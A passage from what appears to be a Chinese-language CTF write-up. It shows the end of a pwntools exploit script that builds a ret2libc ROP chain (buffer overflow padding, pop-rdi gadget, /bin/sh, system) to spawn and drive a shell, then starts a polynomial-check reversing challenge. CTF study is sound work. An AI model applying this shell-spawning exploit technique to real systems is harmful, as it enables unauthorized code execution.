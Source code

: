 ```python
puts_plt = plt['puts']
retAddress = 0x000000000040101a

payload3 = b'33333333'
sh.sendlineafter('What will you do to capture it?:', payload3)

offset = 56
payload4 = b'4' * offset + libcPopRdiRetAddress.to_bytes(8, 'little') + libcBinShAddress.to_bytes(
    8, 'little') + retAddress.to_bytes(8, 'little') + libcSystemAddress.to_bytes(8, 'little')

sh.sendlineafter('and your flag again?', payload4)

check(payload1)
check(payload2)
check(payload3)
check(payload4)

payload5 = b'ls -al'
sh.sendline(payload5)

payload = payload1 + b'\n' + payload2 + b'\n' + payload3 + b'\n' + payload4 + b'\n' + payload5 + b'\n'

with open('payload', 'wb') as f:
    f.write(payload)

print(payload)
sh.interactive()
```

</details>

<br>

### 16. 绝妙的多项式

#### Baby

逆向出计算部分的源代码：

```c++
    mint* values = new mint[36];
    memset(values, 0, 36 * sizeof(mint));

    for (int i = 0; i < 36; ++i) {
        char ch = inputArray[i];
        mint::mint(&values[i], (int)ch);
    }

    for (int i = 1; i <= 36; ++i) {
        mint sum(0);
        mint product(1);

        for (int j = 0; j < 36; ++j) {
            sum += values[j] * product;
            product *= mint(i);
        }
        if (sum.value() != DAT_00105020[i - 1]) {
            std::cout << "Failed, please try again!" << std::endl;
            return 1;
        }
    }
```
